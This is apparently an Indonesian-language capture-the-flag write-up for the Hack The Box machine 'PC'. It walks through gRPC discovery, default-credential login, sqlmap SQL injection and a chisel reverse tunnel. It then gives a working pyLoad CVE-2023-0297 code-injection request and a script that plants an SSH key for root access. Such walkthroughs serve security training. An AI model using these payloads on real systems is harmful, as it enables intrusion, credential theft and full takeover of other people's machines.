




# PC

<figure><figcaption></figcaption></figure>

## Reconnaissance

Reconnaissance (pencarian informasi) dalam pentesting adalah langkah awal yang dilakukan oleh seorang pentester untuk mengumpulkan informasi dan memahami lebih lanjut tentang target yang akan diserang. Tujuan utama dari tahap reconnaissance adalah memperoleh pemahaman yang komprehensif tentang sistem, aplikasi, infrastruktur, dan entitas terkait yang akan dievaluasi dalam penilaian keamanan.

### Initial Port Scanning

```bash
nmap -sV -sT -sC -A -oA nmap/PC.htb 10.10.11.214
```

Output

```
Nmap scan report for 10.10.11.214
Host is up (0.16s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   162.85 ms 10.10.14.1
2   162.87 ms 10.10.11.214

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 23 19:45:13 2023 -- 1 IP address (1 host up) scanned in 21.09 seconds

```

Dari initial port scan tidak ada port atau service yang dapat kita eksploitasi. Kita cuma lakukan full port scanning.

### Full Port Scanning

```bash
nmap -Pn -p- -T4 -oA nmap/nmap_full pc.htb
```

Output:

```
map scan report for pc.htb (10.10.11.214)
Host is up (0.14s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown

# Nmap done at Tue May 23 19:48:39 2023 -- 1 IP address (1 host up) scanned in 162.61 seconds
```

Kita coba scan ulang di port 50051.

```bash
nmap -p 50051 -sV -sC -Pn pc.htb
```

Output:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 22:33 WIB
Nmap scan report for pc.htb (10.10.11.214)
Host is up (0.15s latency).

PORT      STATE SERVICE VERSION
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.93%I=7%D=5/23%Time=646CDCC3%P=x86_64-pc-linux-gnu%r(N
SF:ULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x0
SF:6\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Generic
SF:Lines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetRe
SF:quest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPO
SF:ptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSP
SF:Request,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\
SF:0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPC
SF:Check,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVe
SF:rsionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\
SF:xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0
SF:")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0
SF:\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\
SF:0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0
SF:\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\
SF:0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x0
SF:5\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0
SF:\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?
SF:\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x0
SF:8\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0");

```

Jujur saja saya masih belum memiliki gambaran mengenai service apa yang berjalan di port **50051** ini.&#x20;

Namun berdasarkan dua referensi berikut, ada indikasi bahwa service gRPC berjalan pada port ini.

Referensi:

* [https://stackoverflow.com/questions/55990378/i-tried-to-deploy-grpc-go-server-in-docker-and-expose-port-in-local-port-but-p](https://stackoverflow.com/questions/55990378/i-tried-to-deploy-grpc-go-server-in-docker-and-expose-port-in-local-port-but-p)
* [https://hackaday.com/2021/12/17/this-week-in-security-log4j-pdf-cpu-and-i-hack-starlink/](https://hackaday.com/2021/12/17/this-week-in-security-log4j-pdf-cpu-and-i-hack-starlink/)

Selanjutnya yang saya butuhkan adalah gRPC client. Saya sendiri akhirnya menggunakan grpcui untuk berinteraksi dengan port 50051 ini.

Referensi:

* [https://github.com/grpc-ecosystem/awesome-grpc#tools-gui](https://github.com/grpc-ecosystem/awesome-grpc#tools-gui)
* [https://github.com/fullstorydev/grpcui](https://github.com/fullstorydev/grpcui)

### Exploitation

Jalankan grpcui untuk terhubung dengan port 50051.

```
grpcui -plaintext 10.10.11.214:50051
```

Maka gRPC client dapat diakses melalui browser.

<figure><figcaption></figcaption></figure>

Jangan lupa untuk menghubungkan browser dengan Burp Suite agar kita lebih mudah untuk menganalisa request serta respose dari aplikasi.

Disini saya coba untuk login menggunakan default credential admin:admin ternyata berhasil.

<figure><figcaption></figcaption></figure>

Token yang didapat bisa digunakan untuk mengakses endpoint /invoke/SimpleApp.getInfo.

<figure><figcaption></figcaption></figure>

Namun karena tidak ada informasi menarik, saya langsung lempar requestnya ke sqlmap.

File **sqli.req**

```
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:45949
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
x-grpcui-csrf-token: DA7-YHBzXVD_AcnqlKF0lP4j4doAIIEt5yuBwGvvmP0
X-Requested-With: XMLHttpRequest
Content-Length: 191
Origin: http://127.0.0.1:45949
Connection: close
Referer: http://127.0.0.1:45949/
Cookie: _grpcui_csrf_token=DA7-YHBzXVD_AcnqlKF0lP4j4doAIIEt5yuBwGvvmP0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.xxx"}],"data":[{"id":"1*"}]}
```

#### SQL Injection

```
sqlmap -r sqli.req --dump
```


<figure><figcaption></figcaption></figure>

<figure><figcaption><p>Get Credentials</p></figcaption></figure>

### Initial Access

Dari kredensial yang didapat melalui SQL Injection, karena tidak ada service lain yang bisa dicoba, kita langsung bisa coba gunakan kredensial tersebut untuk mengakses SSH.

```
ssh sau@pc.htb
```

<figure><figcaption><p>Low User Owned</p></figcaption></figure>

## Post Exploitation

Untuk mendapatkan akses root, saya mencoba enumerasi service dan juga kemungkinan kesalahan konfigurasi menggunakan [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS). Namun beberapa PE Vector yang terdeteksi tidak berhasil dieksploitasi.

<figure><figcaption><p>LinPEAS</p></figcaption></figure>

Selanjutnya kita coba inspeksi manual. Pertama, kita jalankan perintah netstat untuk melihat service yang mungkin berjalan di internal.

```
netstat -tlpn
```

<figure><figcaption><p>Find service at port 8000</p></figcaption></figure>

Sekarang kita coba ekspos service yang berjalan di port 8000 tersebut. Kita bisa gunakan tool [chisel](https://github.com/jpillora/chisel).

Dari mesin attacker jalankan perintah

```
chisel server -p 2525 --socks5 --reverse -v
```

Sementara dari sisi server target, jalankan perintah:

```
./chisel client 10.10.14.46:2525 R:8001:127.0.0.1:8000
```

Sekarang, service tersebut dapat kita akses dari port **8001** di mesin kita.

<figure><figcaption><p>pyLoad</p></figcaption></figure>

Dari hasil searching, ditemukan exploit untuk pyLoad yakni [**CVE-2023-0297**](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/).

Pertama, langsung saya coba PoC yang terdapat halaman huntr.

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8001' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8001/flash/addcrypted2'
```

Ternyata berhasil. Pada direktori /tmp di server terdapat file **pwnd**. Menariknya, file tersebut dimiliki oleh user **root**.

<figure><figcaption><p>root file</p></figcaption></figure>

Kita bisa gunakan kerentanan ini untuk mendapatkan akses root. Caranya, kita buat file terlebih dahulu di direktori /tmp.

File **root-pwn.sh**

```
#/bin/bash
mkdir /root/.ssh
touch /root/.ssh/authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADx...YlTvNrQ== haibara@htb" | tee -a /root/.ssh/authorized_keys
```

Beri hak akses eksekusi pada file tersebut:

```
chmod +x /tmp/root-pwn.sh
```

Lalu ubah payloadnya agar mengeksekusi script tersebut.

```
pyimport os;os.system("/bin/bash /tmp/root-pwn.sh")
```

Final requests:

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8001' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%2f%62%69%6e%2f%62%61%73%68%20%2f%74%6d%70%2f%72%6f%6f%74%2d%70%77%6e%2e%73%68%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8001/flash/addcrypted2'
```

Sekarang kita login ssh ke user root menggunakan key yang sudah kita tanam.

```
ssh -i ~/.ssh/htbkey_rsa root@pc.htb
```

<figure><figcaption><p>PC Owned</p></figcaption></figure>

Oke sekian sharing kali ini, semoga bermanfaat.
